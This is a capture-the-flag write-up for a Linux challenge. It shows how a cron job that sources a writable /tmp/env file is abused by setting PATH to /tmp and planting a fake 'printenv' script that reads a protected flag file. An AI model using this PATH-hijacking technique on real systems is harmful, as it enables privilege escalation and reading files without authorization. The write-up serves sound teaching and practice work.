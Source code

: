 ## CTF - Desafio 2

## Recon

In this challenge we are given a linux system.

```bash
nobody@330311abc802:/home/flag_reader$ uname -a
Linux 330311abc802 5.4.0-126-generic #142-Ubuntu SMP Fri Aug 26 12:12:57 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

If we use the command `whoami` and `groups` to check which user we are and what group permissions we have, we notice that we can't do much from the start:

```bash
nobody@330311abc802:/home/flag_reader$ whoami
nobody

nobody@330311abc802:/home/flag_reader$ groups
nogroup
```

In our `$HOME` we have 3 files:

#### main.c

```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```

#### my_script.sh

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

And a compiled version of the c script.

If we analyze the C script, we notice that essentially, all it does is checking if the file `/flags/flag.txt` exists and print a message according to it.

The bash script does the following:

 - If the file `/tmp/env` exists, it exports the contents of the file as environment variables using xargs.
 - It then removes the `/tmp/env` file.
 - It prints the environment variables using printenv.
 - It executes the `/home/flag_reader/reader` program.

The purpose of the script appears to be to set up the environment for the reader program by exporting variables from the `/tmp/env` file, and then running the reader program.

After analyzing the system we found that the only place we could write and create files was in fact in the directory `/tmp`.

If we run the `env` command we can see the current environment variables:

```
SHELL=/usr/sbin/nologin
HOSTNAME=330311abc802
SOCAT_PEERADDR=172.29.0.34
PWD=/home/flag_reader
LOGNAME=nobody
SOCAT_PEERPORT=53128
HOME=/nonexistent
USER=nobody
SHLVL=1
SOCAT_PPID=71
SOCAT_SOCKADDR=10.146.18.2
SOCAT_SOCKPORT=4006
SOCAT_PID=15215
S6_READ_ONLY_ROOT=1
PATH=/command:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SOCAT_VERSION=1.7.3.3
OLDPWD=/run/s6/legacy-services/socat
_=/usr/bin/env
```

If we check the cronjobs in `/etc/cron.d`, we will find the following cronjob:

```
nobody@330311abc802:/etc/cron.d$ cat /etc/cron.d/my_cron_script
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

This cronjob runs the `/home/flag_reader/my_script.sh` script every minute, using bash as the interpreter. The output of the script is redirected to the `/tmp/last_log file`. The `PATH` variable is also set to include several directories that contain executables that may be used in the script.


## Exploitation

After some time exploring, we thought of changing the `PATH`. The `PATH` variable contains a list of directories that are searched by the system when a command is run. These directories typically contain executables and other programs that can be run from the command line. By changing the `PATH` variable, we can modify the location of executables that are run when a command is entered, which can change the side-effects of programs like `printenv` and others.

So, we can do the following:

```bash
echo "PATH=/tmp/" > /tmp/env
```

And then we can write a file `printenv` with a malicious payload to read the flag, like the following:

```bash
cat > /tmp/printenv << EOF
#!/usr/bin/bash
cat /flags/flag.txt
EOF
```

We then need to make the new "malicious printenv" executable like this:

```bash
chmod +x /tmp/printenv
```

This will print read the flag and, since the output of `my_script.sh` will be redirected to the file `/tmp/last_log`, we will get the flag in this file. It might now be instantaneous, since this runs once every minute, so you may need to be just a little patient.

